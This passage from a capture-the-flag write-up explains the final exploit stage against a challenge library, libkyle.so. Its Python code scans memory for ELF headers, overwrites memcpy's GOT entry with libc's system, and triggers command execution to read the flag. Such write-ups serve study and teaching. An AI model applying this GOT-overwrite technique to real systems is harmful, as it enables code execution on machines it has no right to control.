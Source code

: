 ```py
lastMappedPage += linearFindLargest(lastMappedPage, 0x10000, 40300)
lastMappedPage += linearFindLargest(lastMappedPage, 0x1000, 40400)
print (f"{lastMappedPage = :#x}")
```

## 4.6 The exploit

Finally, we know everything we need about the memory mappings, now it is just a matter of leveraging a write what where primitive into code execution.

To achieve code execution I overwrote libkyle.so's memcpy@got entry with system@libc.

### Get libkyle base
Luckily for us libc base and libkyle.so base are at a constant offset from the lastMappedPage, I didn't know that was the case so I wrote a egghunter which search for `\x7fELF` \(Header of ELF executables\), which in the end wasn't useful.
```py
    # Scan backwards looking for b'\x7fELF'
    i = 0
    numElf = 0

    while numElf != 2:
        theAddr = lastMappedPage-0x1000*i
        hdr = readFromAddr(theAddr, 4, 40500+i)
        print(f"{i:02d}) Elf in {theAddr:#x}? {hdr.hex()}")
        if hdr == b'\x7fELF':
            numElf += 1
            print (f"found elf at {theAddr:#x}")

        if i > 70:
            print ("Exploit failed, upper bound address was wrong")
            exit(1)

        i += 1
```

### Overwrite libkyle's memcpy@got and get RCE

Fortunately overwriting memcpy@got with system was good enough to get the flag and claim that juicy bounty :)

```py
    # exp is a CompressedFile which:
    # - writes libc.system to memcpy_got
    # - calls memcpy(cmd, 0, 0) -> system(cmd)
    cmd = b"ls;cat flag.txt;\x00"
    exp = CompressedFile(24)
    
    exp.seek((memcpy_got - OUT_ADDR)&M64)
    # out=memcpy_got
    for b in p64(libc.symbols['system']):
        exp.write(bytes([b]))
    # out=memcpy_got+8
    # memcpy(out, out-off, size)
    # system(out)
    
    in_addr_off = len(exp.content)
    exp.content += cmd
    exp.seek((IN_ADDR + in_addr_off - (memcpy_got + 8))&M64)
    exp.memcpy(0, 0) # system(cmd)
    
    uploadFile(exp.content, 123001)
    # profit
    getFile(123001)
```